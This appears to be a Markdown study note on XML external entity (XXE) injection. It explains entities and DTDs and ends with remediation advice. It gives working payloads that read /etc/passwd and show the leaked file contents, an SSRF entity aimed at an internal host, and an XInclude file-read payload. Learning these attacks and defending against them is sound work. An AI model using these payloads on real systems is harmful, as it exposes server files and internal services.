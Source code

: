 # XXE (XML external entity)❌Injection

XXE injection is an attack technique to manipulate or compromise the logic of XML application.

Attacker can view internal file's of applicatgion server and interact with back end systems.

### Some key features of XML that relevant to understanding XXE vulnerabilities
- ***XML (Extensible markup language):*** designed for storing and transporting data. XML uses a tree structure of tags and data.
- ***XML Entities*** is a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities `&lt;` and `&gt;` represent the characters < and >.
- ***DTD (Document type definition):*** define the structure of an XML document, it can contain types of data values and other items. 

  DTD is declared within the optional DOCTYPE element at the start of the XML document. 

  DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two. 
- ***What is XML external entities:*** a type of custom entity whose definition is located outside of the DTD.
  
  Declaration of an external entity uses the `SYSTEM` keyword and must specify a `URL` from which the value of the entity should be loaded
  
  ` <!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>` or `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

## How XXE vulnerability occur?

When aplications use the XML format to transmit data between the browser to server. they always using standard library or platform API to process XML data on the server.

XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

Like XXE are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. also external entities are allow an entity to be defined based on the contents of a file path or URL. 

## Types of XXE

- Internal DTD
- External DTD


## 🔎 How to find and test XXE
### 1. Exploiting XXE to retrieve files

 To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

   1. Edit a DOCTYPE element that defines an external entity containing the path to the file.
   2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

Example: Application checks for the stock level of a product by submitting the following XML to the server
```
<?xml version="1.0" encoding="UTF-8"?>
<stocCheck><productId>381</productId></stockCheck>
```

Here. no defenses against XXE attacks, so you can exploit XXE to retrieve the `/etc/passwd` file by submitting following XXE payload: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
This XXE payload defines an external entity &xxe; whose value is the contents of the /etc/passwd file and uses the entity within the productId value. This causes the application's response to include the contents of the file.
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
### 2. Exploiting XXE to perform SSRF attacks

SSRF is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.

Example: Perform SSRF attack, you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
### 3. [Blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)

### 4. Finding hidden attack surface for XXE injection
  1. XInclude attacks

Perform an XInclude attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. 

Example:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```
  2. [XXE attacks via file upload](https://portswigger.net/web-security/xxe)
  3. [XXE attacks via modified content type](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks)


## 🛠️ Remediation of XXE

- XML parsing library supports potentially dangerous XML features that the application does not need or intend to use. The safest way to prevent XXE is always to disable DTDs (External Entities) completely. 
-  Configure XML parser to disable external entity resolution.
-  Disable support for XInclude

## 🔗 Refrence

- https://portswigger.net/web-security/xxe
- https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
